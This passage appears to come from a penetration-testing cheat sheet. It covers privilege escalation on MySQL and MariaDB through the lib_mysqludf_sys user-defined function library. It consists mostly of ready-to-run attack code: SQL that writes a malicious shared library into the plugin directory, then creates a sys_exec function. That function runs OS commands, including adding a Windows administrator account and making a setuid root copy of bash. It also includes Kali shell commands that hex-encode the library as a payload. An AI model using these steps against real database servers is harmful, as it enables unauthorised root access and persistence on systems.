 ### Privilege escalation via library (MySQL)

You can find **compiled versions** of this **libraries** in [sqlmap](../Tools/sqlmap.md): `locate lib_mysqludf_sys.so` and `locate lib_mysqludf_sys.dll`.
Instead of `locate` you can also use `whereis` to search for this libraries inside the host.

**Linux**:

```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/tmp/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out.txt');
```

**Windows**:

```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```

### Privilege escalation via library (Mariadb)

Generate the shellcode using [xxd](../Dev,%20scripting%20&%20OS/Linux%20command%20cheatsheet.md#xxd)
```bash
┌──(kali㉿kali)-[~/…/ntwk/admin.local/10.3.3.42/exploit]
└─$ whereis lib_mysqludf_sys
lib_mysqludf_sys: /usr/lib/lib_mysqludf_sys.so

┌──(kali㉿kali)-[~/…/ntwk/admin.local/10.3.3.42/exploit]
└─$ xxd -p /usr/lib/lib_mysqludf_sys.so | tr -d '\n' > udf.hex

┌──(kali㉿kali)-[~/…/ntwk/admin.local/10.3.3.42/exploit]
└─$ cat udf.hex | xclip -sel c
```

```sql
set @shell = 0x<shellcode>;
select @@plugin_dir
select binary @shell into dumpfile <plugin_dir directory>;
create function sys_exec returns int soname <udf_filename>;
select * from mysql.func where name='sys_exec';
select sys_exec('cp /bin/bash /tmp/; chown root:root /tmp/bash; chmod +s /tmp/bash')
```

### Extracting MySQL credentials from the database
